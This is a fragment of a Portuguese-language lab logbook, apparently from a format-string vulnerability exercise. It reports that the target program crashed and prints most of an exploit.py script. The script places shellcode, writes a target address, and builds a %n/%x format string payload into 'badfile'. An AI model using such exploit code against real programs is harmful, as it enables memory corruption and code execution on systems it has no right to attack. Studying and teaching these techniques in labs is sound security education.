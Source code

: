   ![Resultado do exploit.py](../img/logbook6-img4.png)
- Neste caso, o programa "crashou" pois não retornou a string `(^_^)(^_^)  Returned properly (^_^)(^_^)`.

### Código Utilizado no `exploit.py`

```python
# Place the shellcode somewhere in the payload (NOP slide to shellcode)
start = 500
content[start:start + len(shellcode)] = shellcode

############################################################
#
#    Construct the format string here
# 
############################################################

# 32-bit target address 
target_address = 0x080e5068

# Insert the 32-bit target address at the right offset
content[100:104] = (target_address).to_bytes(4, byteorder='little')

# Number of bytes already written by this point
current_written = 104  # bytes already written before %x starts processing

# Smaller desired value to test whether the target address is being written
desired_value = 0x12345678  # A smaller test value

# Calculate the padding required to reach the desired value
padding = (desired_value - current_written) & 0xffffffff

# Construct a more verbose format string to debug (includes more %x specifiers)
format_string = f"%{padding}x%n" + "%.8x " * 12  # Print 12 values from the stack

# Convert format string to bytes and pad with extra characters
format_string = format_string.encode("latin-1").ljust(300, b'A')

# Insert the format string into the payload at a safe offset
content[300:300 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```